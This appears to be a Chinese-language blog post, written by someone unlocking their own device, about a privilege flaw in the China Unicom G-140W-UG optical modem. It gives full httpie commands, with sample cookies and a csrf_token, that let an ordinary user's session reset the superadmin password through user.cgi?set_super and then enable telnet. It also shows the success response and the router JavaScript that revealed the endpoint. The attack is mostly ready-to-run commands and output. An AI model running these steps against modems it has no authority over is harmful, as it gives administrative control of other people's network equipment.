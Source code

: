 ```yaml
---
title: 联通 G-140W-UG 光猫管理员密码
date: 2022-08-30
tags: [networking, hack]
---
```


# 利用权限漏洞重设超级管理员密码

首先使用光猫默认用户登录(用户名和密码在光猫底部贴纸上)，然后从浏览器开发人员工具复制 Cookie：

```
Cookie: lsid=NZFrDLysprLjJKHU; lang=chs; sid=gkXdVRffiwhKzDhI
```

下面的步骤需要安装 `httpie`, 读者亦可自行将下面的命令翻译成对应的 `curl` 命令。

执行下面的命令来获取 `csrf_token`

```sh
http 192.168.1.1/user.cgi 'Cookie: lsid=LztHASdNNYtwxHVp; lang=chs; sid=SuTqIMDGFNSwjFVU' | grep csrf_token 
```

在输出中可以找到 `csrf_token`.

```js
                    settings.data = 'csrf_token=NKnoyiroxbYTHiLd';
                    if (settings.data.indexOf("csrf_token") < 0)
                        settings.data += '&csrf_token=NKnoyiroxbYTHiLd'
        $("form").prepend('<input type="hidden" name="csrf_token" value="NKnoyiroxbYTHiLd" />');
```

然后执行下面的命令来设置光猫超级管理员密码：

```sh
http -f '192.168.1.1/user.cgi?set_super' pswdNewSuper=新的管理员密码 pswdConfirmSuper=新的管理员密码 csrf_token=上面的csrf_token '你的Cookie'
```

将上述变量都带进去之后，命令会像下面这样：（注意：不要设置像 12345678 这样的弱密码）

```sh
http -f '192.168.1.1/user.cgi?set_super' pswdNewSuper=12345678 pswdConfirmSuper=12345678 csrf_token=NKnoyiroxbYTHiLd 'Cookie: lsid=LztHASdNNYtwxHVp; lang=chs; sid=SuTqIMDGFNSwjFVU'
```

最后返回结果应该包含设置成功的消息。

```http
HTTP/1.0 200 OK
Cache-Control: private,max-age=0;
Content-Security-Policy: default-src 'self' 'unsafe-inline' 'unsafe-eval'
Content-type: text/html;charset=UTF-8;
Strict-Transport-Security: max-age=2592000; includeSubdomains
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block

{
    "err": "unknown error",
    "msg": "设置成功",
    "ret": 0
}
```

如果你没有看到设置成功的消息，而是 `302 Found` 的话，大概率是你的 Cookie 过期了，请重新登录光猫，获取新的 Cookie。

## 这个漏洞是如何被发现的

登录普通账户之后查看 `login.cgi` 页面的源代码，可以发现普通的密码设置和管理员密码的设置过程都写在里面。

```js
$("#edit").click(function(){
    $("#edit").prop("disabled",true);
    var p1=$.trim($(":input[name='pswdNewSuper']").val())
    var p2=$.trim($(":input[name='pswdConfirmSuper']").val())
    if(p1!=p2){
        alert("密码不匹配");
        $("#edit").prop("disabled",false);
        return false;
    }
    if(!p1 && !p2){
        alert("新密码不能为空");
        $("#edit").prop("disabled",false);
        return false;
    }
    if(p1.length<8){
        alert("密码需要大于等于八位");
        $("#edit").prop("disabled",false);
        return false;
    }
    $.post(location.pathname+"?set_super",$("form").serialize(),null,'json')
        .done(function(data){
            alert(data.msg);
        })
        .always(function(){
            window.location.href=window.location.href;
        })
})
```
- `$.post(location.pathname+"?set_super",$("form").serialize(),null,'json')` 这行代码指出了设置管理员密码的 URL。
- ```js
  var p1=$.trim($(":input[name='pswdNewSuper']").val())
  var p2=$.trim($(":input[name='pswdConfirmSuper']").val())
  ```
  指出了设置管理员密码需要的表单字段。

随后，经过测试，我发现使用普通用户的 Cookie 值就能调用此接口重设超级管理员密码。


# 开启 telnet

前往光猫登录页面，使用刚才重设的密码登录管理员账户。

然后在浏览器中打开 `http://192.168.1.1/system.cgi?telnet` 这个页面，可以点击开启按钮来启用 telnet.

然后便可以 `telnet 192.168.1.1` 连进光猫愉快的玩耍了！
